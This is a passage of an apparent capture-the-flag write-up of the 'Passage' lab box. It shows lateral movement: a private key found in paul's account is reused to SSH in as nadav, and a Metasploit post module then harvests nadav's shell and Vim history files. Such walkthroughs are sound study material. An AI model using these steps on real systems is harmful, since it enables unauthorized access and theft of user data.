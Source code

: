 ```bash
drwxrwxr-x  2 paul paul 4.0K Sep 23 01:00 .nano
drwxr-xr-x  2 paul paul 4.0K Jul 21 10:44 Pictures
-rw-r--r--  1 paul paul  655 May 16  2017 .profile
drwxr-xr-x  2 paul paul 4.0K Jul 21 10:44 Public
drwxr-xr-x  2 paul paul 4.0K Jul 21 10:43 .ssh
drwxr-xr-x  2 paul paul 4.0K Sep 23 01:03 Templates
-r--------  1 paul paul   33 Sep 22 21:18 user.txt
drwxr-xr-x  2 paul paul 4.0K Jul 21 10:44 Videos
-rw-------  1 paul paul   52 Sep  2 07:18 .Xauthority
						  -rw-------  1 paul paul 1.2K Sep  2 07:19 .xsession-errors
-rw-------  1 paul paul 1.4K Sep  1 04:20 .xsession-errors.old
...
```
Checking out the authorized keys file:
```bash
paul@passage:~$ cat .ssh/authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
```
The public key associated with this SSH account actually belongs to the user nadav. Therefore I should be able to access nadav's account as well.

### 6. Switch users and continue enumeration

```bash
kali@kali:~/Desktop/htb/passage$ ssh -i paul_id_rsa nadav@passage.htb
load pubkey "paul_id_rsa": invalid format
Last login: Thu Sep 24 00:33:42 2020 from 10.10.15.158
nadav@passage:~$ whoami
nadav
```
While enumerating this user I spawn a meterpreter shell to play around with some post modules. One of them, enum_users_history, dumps out nadav's VIM editing history.
```bash
msf5 post(linux/gather/enum_users_history) > run

[+] Info:
[+]     Ubuntu 16.04.6 LTS  
[+]     Linux passage 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
[-] Failed to open file: /home/nadav/.ash_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/nadav/.bash_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/nadav/.csh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/nadav/.ksh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/nadav/.sh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/nadav/.tcsh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/nadav/.zsh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/nadav/.mysql_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/nadav/.psql_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/nadav/.dbshell: core_channel_open: Operation failed: 1
[+] Vim history for nadav stored in /root/.msf4/loot/20200924032855_default_10.10.10.206_linux.enum.users_758355.txt
[-] Failed to open file: /etc/sudoers: core_channel_open: Operation failed: 1
[+] Last logs stored in /root/.msf4/loot/20200924032859_default_10.10.10.206_linux.enum.users_692812.txt
[*] Post module execution completed
msf5 post(linux/gather/enum_users_history) > cat /root/.msf4/loot/20200924032855_default_10.10.10.206_linux.enum.users_758355.txt
[*] exec: cat /root/.msf4/loot/20200924032855_default_10.10.10.206_linux.enum.users_758355.txt

# This viminfo file was generated by Vim 7.4.
# You may edit it if you're careful!
```